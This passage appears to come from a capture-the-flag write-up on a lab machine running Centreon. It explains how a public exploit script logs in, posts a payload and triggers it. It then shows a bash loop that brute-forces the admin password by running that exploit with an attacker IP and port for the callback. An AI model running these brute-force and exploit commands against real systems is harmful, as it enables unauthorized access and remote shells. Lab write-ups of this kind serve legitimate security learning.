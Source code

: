 ```

<div class="error_msg"><span class='msg'>Your credentials are incorrect.</span></div>

```

But when I send it to repeater and submit again:

```

<div class='msg' align='center'>The form has not been submitted since 15 minutes. Please retry to resubmit<a href='' OnLoad = windows.location(); alt='reload'> here</a></div>

```

This is because the token isn’t right. That rules out something like `hydra`.

#### Exploit Script

Looking at the script, it uses `requests` to issue five HTTP requests:
- A GET to `/index.php` to add the php session cookie to the session and find the token.
- A POST to `/index.php` to login. If the login fails, it prints a message and exits.
- A GET to `/main.get.php?p=60901` to get a “Poller token”.
- A POST to `/main.get.php?p=60901` that includes the payload.
- A GET to `/include/configuration/configGenerate/xml/generateFiles.php` to trigger the payload.

I considered writing my own script to brute force the credentials, but this script already does what I want. I did add `features="lxml"` to each of the `BeautifulSoup` calls, otherwise there’s a lout error on running.

I’ll run a `bash` for loop over a list of passwords. For each password, I’ll run the exploit script, and pipe the output into `grep`. I see in the script that the first thing it does after a successful login is `print("[+] Logged In Sucssfully")`. So I’ll `grep` for that and then add `&& echo $pass && break`. That means that if the `grep` is successful, it will echo the password that worked, and then end the loop.

All of that runs and gets the password in about four minutes using the `twitter-banned.txt` password list:

```

root@kali# time for pass in $(cat /usr/share/wordlists/seclists/Passwords/twitter-banned.txt); do ./centreon-exploit.py http://10.10.10.157/centreon admin $pass 10.10.14.30 443 | grep "Logged In" && echo $pass && break; done
[+] Logged In Sucssfully
password1

real    3m49.380s
user    2m22.758s
sys     0m14.211s

```

#### API

An even better way to do this brute force is to use the [Centreon API](https://documentation.centreon.com/docs/centreon/en/latest/api/api_rest/index.html#authentication). Based on that documentation, I can attempt authentication using the following `curl`:
